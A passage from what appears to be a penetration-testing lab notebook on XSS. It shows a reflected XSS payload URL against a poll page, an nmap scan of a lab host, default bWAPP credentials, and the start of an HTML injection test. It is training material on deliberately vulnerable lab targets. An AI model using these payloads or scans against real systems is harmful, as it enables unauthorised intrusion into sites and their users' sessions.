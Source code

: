 - Open the `Final Attack` link in the browser
  - `http://192.131.167.3/index.php?page=user-poll.php&csrf-token=&choice=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&initials=2&user-poll-php-submit-button=Submit+Vote`

![](assets/image-20230505002955557.png)

------

## Authenticated XSS Attack - XSSer

> 🔬 [Authenticated XSS Attack with XSSer](https://attackdefense.com/challengedetails?cid=1892)
>
> - Target IP: `192.56.179.3`
> - bWAPP

```bash
ip -br -c a
	eth1@if178967  UP  192.56.179.2/24

nmap -sS -sV 192.56.179.3
```

- Login with `bug`:`bee`, select the `HTML Injection - Reflected (GET)` bug and input any value. Copy the URL
  - `http://192.56.179.3/htmli_get.php?firstname=hi&lastname=hi&form=submit`
